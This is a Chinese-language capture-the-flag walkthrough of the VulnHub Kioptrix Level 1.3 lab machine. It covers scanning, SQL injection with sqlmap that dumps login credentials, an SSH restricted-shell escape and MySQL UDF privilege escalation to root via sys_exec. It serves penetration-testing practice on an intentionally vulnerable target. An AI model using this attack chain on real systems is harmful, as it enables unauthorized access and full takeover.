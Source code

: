 # 原创
：  VulnHub渗透测试实战靶场 - KIOPTRIX: LEVEL 1.3

# VulnHub渗透测试实战靶场 - KIOPTRIX: LEVEL 1.3

#### VulnHub渗透测试实战靶场 - KIOPTRIX: LEVEL 1.3

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/kioptrix/Kioptrix4_vmware.rar)


## KIOPTRIX: LEVEL 1靶机搭建

> 
由于压缩包内只有一个虚拟硬盘，需要打开一个虚拟机加入这块硬盘


> 
将原来的硬盘删去，选择下载好的靶机硬盘，并将网络适配器设置为NAT模式


> 
打开靶机即可


## 渗透测试

### 信息搜集

> 
用arp-scan探测一下网段内目标靶机的IP：`sudo arp-scan -l`<br/> 得到目标靶机的IP为：`192.168.246.136`


> 
用Nmap探测一下目标靶机IP的端口信息：`sudo nmap -sS -A 192.168.246.136`，发现开放了`22、80、139、445`四个端口


> 
用dirb扫描一下web目录：`dirb http://192.168.246.136`


### 漏洞挖掘

> 
测试登录框，发现疑似存在SQL注入漏洞


> 
用burpsuite抓包，扔进sqlmap中，成功得到Payload


> 
利用sqlmap爆数据库名


> 
利用sqlmap爆members数据库的表名


> 
利用sqlmap爆字段名


> 
利用sqlmap爆数据，得到两组用户名和密码


```
robert：ADGAdsafdfwt4gadfga==
john：MyNameIsJohn  

```

### getshell

> 
用前面注入得到的两组数据成功连接ssh


> 
利用echo，切换到交互式的shell：`echo os.system('/bin/bash')`


> 
查找网站相关内容信息，发现数据库没有密码


### 提权

> 
尝试 `mysql udf` 提权


> 
首先找到 `lib_mysqludf_sys.so` 的目录


> 
接着创建函数 `create function sys_exec returns integer soname 'lib_mysqludf_sys.so';`


> 
利用 `SELECT sys_exec('usermod -aG admin john');` 将 john 加入管理员组


> 
尝试切换到root用户，成功拿到root权限


#### 补充

> 
可以尝试用sqlmap来完成提权，[参考文章](https://cooltige.com/2020/06/02/Mysql-Udf%E6%8F%90%E6%9D%83/)

